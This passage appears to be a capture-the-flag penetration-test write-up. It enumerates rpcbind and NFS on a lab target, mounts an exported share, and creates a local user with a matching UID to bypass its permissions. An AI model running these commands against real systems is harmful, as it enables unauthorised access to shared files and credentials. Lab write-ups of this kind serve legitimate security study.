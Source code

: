 This proved to be unsuccessful as the login form implements a lockout after too many incorrect attempts.

I also clicked the link to `/administration.php` but received the error message: Access denied.

## Collection, Credential Access, Resource Development
### Data from Network Shared Drive(T1039), Unsecured Credentials: Credentials In Files(T1552.001)
#### rpcbind/nfs(111, 2049)
I performed an additional scan with Nmap against the rpcbind service on port 111:
```bash
$ nmap -A -p 111 < TARGET IP > --badsum
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      34123/tcp   mountd
|   100005  1,2,3      37644/tcp6  mountd
|   100005  1,2,3      52764/udp   mountd
|   100005  1,2,3      59297/udp6  mountd
|   100021  1,3,4      33932/tcp6  nlockmgr
|   100021  1,3,4      34822/udp   nlockmgr
|   100021  1,3,4      37268/udp6  nlockmgr
|   100021  1,3,4      39531/tcp   nlockmgr
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
The presence of rpcbind and nfs led me to the following resource: https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting

First, I checked for the mountable folder on the server:
```bash
$ showmount -e < TARGET IP >
Export list for < TARGET IP >:
/mnt/share *
```
Next, I attempted to mount the folder, and was successful:
```bash
$ sudo mount -t nfs 10.10.88.122:/mnt/share /tmp/hijack -o nolock
$ ls -la /tmp
drwx------  2 1003 1003      4096 Aug  8 15:28 hijack
```
From this, I can see that the folder was successfully mounted, however I do not have permission to view its contents. In this case, a user with a UID of 1003 does have permission. So, I first unmounted the folder, then created "newuser" with UID 1003:
```bash
$ sudo umount /home/kali/hijack       
$ sudo useradd newuser
$ sudo usermod -u 1003 newuser
```
Then I mounted the folder once again, then changed to newuser so I could access its contents:
```bash
$ sudo mount -t nfs 10.10.88.122:/mnt/share /tmp/hijack -o nolock
$ su newuser
$ ls -la /tmp/hijack
```